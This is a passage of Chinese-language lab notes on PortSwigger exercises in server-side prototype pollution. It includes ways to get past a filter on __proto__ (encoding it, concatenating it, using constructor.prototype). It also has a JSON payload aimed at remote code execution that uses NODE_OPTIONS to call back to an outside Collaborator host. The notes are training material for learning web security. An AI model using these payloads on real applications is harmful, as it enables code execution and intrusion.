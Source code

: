     ==>"role":"foo"

![image-20250725013402669](portswigger.assets/image-20250725013402669.png)

1.![image-20250725013944354](portswigger.assets/image-20250725013944354.png)

故意删一个逗号 看到报错信息变成我污染的432

2.

![image-20250725014148599](portswigger.assets/image-20250725014148599.png)

把json spaces跳到20 看raw里面 果然缩径变了

3。好像行不通

![image-20250725014732725](portswigger.assets/image-20250725014732725.png)![image-20250725014742692](portswigger.assets/image-20250725014742692.png)



## 106.实验室：绕过有缺陷的输入过滤器来防止服务器端原型污染

1. `__proto__` → `__pr%6Fto__`（使用 URL 编码）

   `"__proto__"` → `'__' + 'proto__'`（JavaScript 运行时拼接）

   双写

2. 使用 constructor 绕过过滤

   {
     "constructor": {
       "prototype": {
         "polluted": "yes"
       }
     }
   }

![image-20250725020304294](portswigger.assets/image-20250725020304294.png)

![image-20250725022114723](portswigger.assets/image-20250725022114723.png)

用constructor绕过



## 107.实验室：通过服务器端原型污染执行远程代码

1：

```json
"__proto__": {
    "shell": "node",  // 指定子进程使用node作为shell
    "NODE_OPTIONS": "--inspect=YOUR-COLLABORATOR-ID.oastify.com\"\".oastify\"\".com"
}
```

`NODE_OPTIONS` 是一个环境变量，允许开发者为每个 Node 子进程设置默认的命令行参数。
